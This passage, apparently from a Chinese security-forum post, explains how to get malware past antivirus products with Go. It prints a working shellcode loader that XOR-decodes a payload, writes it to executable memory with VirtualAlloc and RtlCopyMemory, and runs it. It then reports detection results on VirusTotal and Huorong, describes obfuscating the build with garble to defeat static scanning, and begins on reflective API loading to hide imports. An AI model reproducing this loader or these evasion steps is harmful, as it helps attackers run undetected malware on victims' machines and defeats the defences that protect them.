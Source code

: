 ```golo=
    //fmt.Print(xor_shellcode)
    var shellcode []byte
    for i := 0; i < len(xor_shellcode); i++ {
        shellcode = append(shellcode, xor_shellcode[i]^KEY_1^KEY_2)
    }
    //开始分配空间 并且将shellcode写入内存中执行
    addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
    if err != nil && err.Error() != "The operation completed successfully." {
        fmt.Println(err.Error())
        os.Exit(1)
    }
    _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
    if err != nil && err.Error() != "The operation completed successfully." {
        fmt.Print(err.Error())
        os.Exit(1)
    }
    syscall.Syscall(addr, 0, 0, 0, 0)
}
```

这里测试一下免杀效果:  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3e1474cf3754586fc8486b23973ee014bc3df6a6.png)

在VT中是会被FireEye检测，但是火绒却没有报错，火绒应该也是使用了FireEye引擎的，这里比较不解，希望师傅们能够指点下  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2e5b300f1277422746a715b6e5a07cd414bbdbce.png)

静态免杀优化
------

相对于动态查杀的绕过，静态免杀的优化还是比较简单，这里为了多熟悉Golang的相关特性，我首先使用了[garble](https://github.com/burrowers/garble)这个项目对Golang在语言上进行混淆，该混淆的点有如下:

```php
用短的 base64 哈希替换尽可能多的有用标识符
用短的 base64 哈希替换包路径
删除所有构建和模块信息
剥离文件名和随机位置信息
通过以下方式剥离调试信息和符号表 -ldflags="-w -s"
混淆文字，如果-literals给出了标志
删除额外信息（如果-tiny给出了标志）
```

当使用garble进行build编译后，相比于之前的免杀效果我们可以明显的看到:  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cc856c3696c67ae64e4d9173b4c571016a2ae1cd.png)

仅仅是通过混淆，便可以起到比较大幅度的免杀效果

反射加载库函数
-------

在Golang中同样可以使用反射加载技术，反射加载我的理解是过动态获取相应dll的基址，来动态获取相应API的地址进而来调用相应的API，从而隐藏导入表中暴露的API

